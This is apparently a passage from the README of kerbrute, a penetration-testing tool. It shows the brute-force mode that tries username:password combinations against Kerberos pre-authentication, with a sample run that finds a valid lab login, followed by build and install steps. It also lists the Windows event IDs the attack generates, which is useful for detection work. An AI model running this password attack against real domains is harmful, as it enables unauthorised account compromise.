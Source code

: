 ### Brute Force
This mode simply reads username and password combinations (in the format `username:password`) from a file or from `stdin` and tests them with Kerberos PreAuthentication. It will skip any blank lines or lines with blank usernames/passwords. This will generate both event IDs [4768 - A Kerberos authentication ticket (TGT) was requested](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) and [4771 - Kerberos pre-authentication failed](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4771)
```
$ cat combos.lst | ./kerbrute -d lab.ropnop.com bruteforce -

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 05/11/19 - Ronnie Flathers @ropnop

2019/05/11 18:40:56 >  Using KDC(s):
2019/05/11 18:40:56 >   pdc01.lab.ropnop.com:88

2019/05/11 18:40:56 >  [+] VALID LOGIN:  athomas@lab.ropnop.com:Password1234
2019/05/11 18:40:56 >  Done! Tested 7 logins (1 successes) in 0.114 seconds
```

## Installing
You can download pre-compiled binaries for Linux, Windows and Mac from the [releases page](https://github.com/ropnop/kerbrute/releases/tag/latest). If you want to live on the edge, you can also install with Go:

```
$ go install github.com/ropnop/kerbrute@latest
```

With the repository cloned, you can also use the Make file to compile for common architectures:

```
$ make help
help:            Show this help.
windows:  Make Windows x86 and x64 Binaries
linux:  Make Linux x86 and x64 Binaries
mac:  Make Darwin (Mac) x86 and x64 Binaries
clean:  Delete any binaries
all:  Make Windows, Linux and Mac x86/x64 Binaries

$ make all
Done.
Building for windows amd64..
Building for windows 386..
Done.
Building for linux amd64...
Building for linux 386...
Done.
Building for mac amd64...
Building for mac 386...
Done.

$ ls dist/
kerbrute_darwin_386        kerbrute_linux_386         kerbrute_windows_386.exe
kerbrute_darwin_amd64      kerbrute_linux_amd64       kerbrute_windows_amd64.exe
```

